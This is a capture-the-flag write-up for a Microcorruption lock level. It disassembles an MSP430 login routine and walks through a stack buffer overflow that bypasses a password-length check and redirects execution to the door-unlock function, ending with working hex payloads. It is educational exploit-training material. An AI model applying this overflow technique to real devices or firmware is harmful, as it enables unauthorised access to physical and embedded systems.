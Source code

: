 ## Challenge Overview

```
OVERVIEW

    - A firmware update further rejects passwords which are too long.
    - This lock is attached the the LockIT Pro HSM-1.
```

Running the program:
```
Authentication now requires a username and password.
Remember: both are between 8 and 16 characters.
Please enter your username:
> username
Please enter your password:
> password
That password is not correct.
```

## Solution

Looking at the assembly shows that its pretty different to the previous levels. 
```
4550 <login>
4550:  0b12           push	r11
4552:  0412           push	r4
4554:  0441           mov	sp, r4
4556:  2452           add	#0x4, r4
4558:  3150 d8ff      add	#0xffd8, sp
455c:  c443 faff      mov.b	#0x0, -0x6(r4)
4560:  f442 e7ff      mov.b	#0x8, -0x19(r4)
4564:  f440 1000 e8ff mov.b	#0x10, -0x18(r4)
456a:  3f40 8444      mov	#0x4484 "Authentication now requires a username and password.", r15
456e:  b012 2847      call	#0x4728 <puts>
4572:  3f40 b944      mov	#0x44b9 "Remember: both are between 8 and 16 characters.", r15
4576:  b012 2847      call	#0x4728 <puts>
457a:  3f40 e944      mov	#0x44e9 "Please enter your username:", r15
457e:  b012 2847      call	#0x4728 <puts>
4582:  3e40 6300      mov	#0x63, r14
4586:  3f40 0424      mov	#0x2404, r15
458a:  b012 1847      call	#0x4718 <getsn>
458e:  3f40 0424      mov	#0x2404, r15
4592:  b012 2847      call	#0x4728 <puts>
4596:  3e40 0424      mov	#0x2404, r14
459a:  0f44           mov	r4, r15
459c:  3f50 d6ff      add	#0xffd6, r15
45a0:  b012 5447      call	#0x4754 <strcpy>
45a4:  3f40 0545      mov	#0x4505 "Please enter your password:", r15
45a8:  b012 2847      call	#0x4728 <puts>
45ac:  3e40 6300      mov	#0x63, r14
45b0:  3f40 0424      mov	#0x2404, r15
45b4:  b012 1847      call	#0x4718 <getsn>
45b8:  3f40 0424      mov	#0x2404, r15
45bc:  b012 2847      call	#0x4728 <puts>
45c0:  0b44           mov	r4, r11
45c2:  3b50 e9ff      add	#0xffe9, r11
45c6:  3e40 0424      mov	#0x2404, r14
45ca:  0f4b           mov	r11, r15
45cc:  b012 5447      call	#0x4754 <strcpy>
45d0:  0f4b           mov	r11, r15
45d2:  0e44           mov	r4, r14
45d4:  3e50 e8ff      add	#0xffe8, r14
45d8:  1e53           inc	r14
45da:  ce93 0000      tst.b	0x0(r14)
45de:  fc23           jnz	$-0x6 <login+0x88>
45e0:  0b4e           mov	r14, r11
45e2:  0b8f           sub	r15, r11
45e4:  5f44 e8ff      mov.b	-0x18(r4), r15
45e8:  8f11           sxt	r15
45ea:  0b9f           cmp	r15, r11
45ec:  0628           jnc	$+0xe <login+0xaa>
45ee:  1f42 0024      mov	&0x2400, r15
45f2:  b012 2847      call	#0x4728 <puts>
45f6:  3040 4044      br	#0x4440 <__stop_progExec__>
45fa:  5f44 e7ff      mov.b	-0x19(r4), r15
45fe:  8f11           sxt	r15
4600:  0b9f           cmp	r15, r11
4602:  062c           jc	$+0xe <login+0xc0>
4604:  1f42 0224      mov	&0x2402, r15
4608:  b012 2847      call	#0x4728 <puts>
460c:  3040 4044      br	#0x4440 <__stop_progExec__>
4610:  c443 d4ff      mov.b	#0x0, -0x2c(r4)
4614:  3f40 d4ff      mov	#0xffd4, r15
4618:  0f54           add	r4, r15
461a:  0f12           push	r15
461c:  0f44           mov	r4, r15
461e:  3f50 e9ff      add	#0xffe9, r15
4622:  0f12           push	r15
4624:  3f50 edff      add	#0xffed, r15
4628:  0f12           push	r15
462a:  3012 7d00      push	#0x7d
462e:  b012 c446      call	#0x46c4 <INT>
4632:  3152           add	#0x8, sp
4634:  c493 d4ff      tst.b	-0x2c(r4)
4638:  0524           jz	$+0xc <login+0xf4>
463a:  b012 4a44      call	#0x444a <unlock_door>
463e:  3f40 2145      mov	#0x4521 "Access granted.", r15
4642:  023c           jmp	$+0x6 <login+0xf8>
4644:  3f40 3145      mov	#0x4531 "That password is not correct.", r15
4648:  b012 2847      call	#0x4728 <puts>
464c:  c493 faff      tst.b	-0x6(r4)
4650:  0624           jz	$+0xe <login+0x10e>
4652:  1f42 0024      mov	&0x2400, r15
4656:  b012 2847      call	#0x4728 <puts>
465a:  3040 4044      br	#0x4440 <__stop_progExec__>
465e:  3150 2800      add	#0x28, sp
4662:  3441           pop	r4
4664:  3b41           pop	r11
4666:  3041           ret
```

Looking at the layout of memory at the end of the function:
```
> r 0x43a0
43a0 0000 7573 6572 6e61 6d65 0000 0000 0000  ..username......
43b0 0000 0008 1070 6173 7377 6f72 6400 0000  .....password...

> r sp
43cc 4044 0000 0000 0000 0000 0000 0000 0000  @D..............
43dc 0000 0000 0000 0000 0000 0000 0000 0000  ................
```

Setting a breakpoint at each `br	#0x4440 <__stop_progExec__>` call and overflowing the password field.
```
Authentication now requires a username and password.
Remember: both are between 8 and 16 characters.
Please enter your username:
> username
Please enter your password:
> aaaaaaaaaaaaaaaabbbb
Invalid Password Length: password too long.
```

Going to try the same idea but overflowing the username to past where the password buffer would be.
```
uthentication now requires a username and password.
Remember: both are between 8 and 16 characters.
Please enter your username:
> aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Please enter your password:
> bbbbbbbbbbbb
Invalid Password Length: password too short.
```

This shouldnt happen :)

Setting a breakpoint at the compare:
```
4600:  0b9f           cmp	r15, r11
4602:  062c           jc	$+0xe <login+0xc0>
4604:  1f42 0224      mov	&0x2402, r15
4608:  b012 2847      call	#0x4728 <puts>
460c:  3040 4044      br	#0x4440 <__stop_progExec__>
---
> r r11
000c 0000 0000 3041 0000 0000 0000 0000 0000  ....0A..........
001c 0000 0000 0000 0000 0000 0000 0000 0000  ................
> r r15
0061 0000 0000 0000 0000 0000 0000 0000 0000  ................
0071 0000 0000 0000 0000 0000 0000 0000 0000  ................
```

Looking at the memory again this value seems to be the 0x12 byte of the username:
```
Authentication now requires a username and password.
Remember: both are between 8 and 16 characters.
Please enter your username:
AAAAAAAAAAAAAAAAABAA
Please enter your password:
password1
---
> r r15
0042 0000 0000 0000 0000 0000 0000 0000 0000  ................
```

With this we can now bypass the password length check.

username = | padding | len(password) | padding | 
password = | padding | srp | 

trying 0x17 bytes for the password padding:

username = `0x41*17+0x19+0x4141`
password = `0x41*23+0x4a44`
```
4141414141414141414141414141414141194141
41414141414141414141414141414141414141414141414a44
```

This fails another check:
```
464c:  c493 faff      tst.b	-0x6(r4)
---
> r r4-0x6
43c6 4141 4141 4141 4a44 0000 0000 0000 0000  AAAAAAJD........
```

and due to the strcpy call I cant null out the byte.

Instead what if we use the username to write the entire payload and then the password to write the null byte.

username = | padding | len(password) | padding | srp |
password = | padding | 0x00 |

So it would be:
username = `0x41*17 + 0x11 + 0x41*24 + 0x4a44`
password = `0x41 * 0x11 + 0x00`
```
4141414141414141414141414141414141114141414141414141414141414141414141414141414141414a44
414141414141414141414141414141414100
```

yay this works!!

fun challenge